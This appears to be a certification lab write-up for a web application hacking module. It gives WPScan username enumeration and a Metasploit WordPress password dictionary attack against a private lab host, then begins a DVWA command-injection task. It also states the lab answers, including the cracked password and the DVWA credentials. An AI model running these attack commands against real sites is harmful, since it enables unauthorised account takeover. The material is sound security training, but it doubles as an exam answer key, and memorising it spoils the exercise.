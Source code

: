 

### Enumerate and Hack a Web Application using WPScan and Metasploit

Use the WPScan tool to enumerate usernames on a WordPress website (http://10.10.1.22:8080/CEH). Enter the username obtained.

admin

```
wpscan --api-token <API Token> --url http://10.10.1.22:8080/CEH --enumerate u
```



Use the Metasploit tool to perform a dictionary attack against the web application http://10.10.1.22:8080/CEH and crack the password for the identified username. Enter the cracked password. Note: the password file is available at /home/attacker/Desktop/CEHv12 Module 14 Hacking Web Applications.

qwerty@123

```
service postgresql start

msfconsole -q

use auxiliary/scanner/http/wordpress_login_enum

show options

set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt

set RHOSTS 10.10.1.22

set RPORT 8080

set TARGETURI http://10.10.1.22:8080/CEH

set USERNAME admin

run

```



### Exploit RCE Vulnerability

Perform command-line execution on a vulnerability found in the DVWA web application (http://10.10.1.22:8080/dvwa/login.php). Enter the hostname of the Windows Server 2022 system. Note: the DVWA login credentials are gordonb/abc123.

Server2022



#### Command Injection Page (Low Mode)
